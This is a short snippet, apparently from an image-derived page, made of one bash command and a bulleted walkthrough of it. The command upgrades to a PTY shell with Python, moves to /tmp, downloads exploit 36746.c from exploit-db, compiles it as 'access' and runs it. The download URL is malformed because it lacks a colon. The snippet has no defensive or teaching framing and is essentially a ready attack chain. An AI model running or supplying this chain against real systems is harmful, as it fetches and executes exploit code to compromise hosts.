 ``` bash
python -c 'import pty;pty.spawn("/bin/bash")' && cd /tmp && wget https//www.exploit-db.com/download/36746.c && gcc 36746.c -o access -static && ./access
```

This command does the following:

- Spawns a new bash shell using Python.
- Changes the directory to /tmp.
- Downloads an exploit from https//www.exploit-db.com/download/36746.c.
- Compiles the downloaded exploit into an executable named access.
- Executes the access executable, which triggers the exploit.
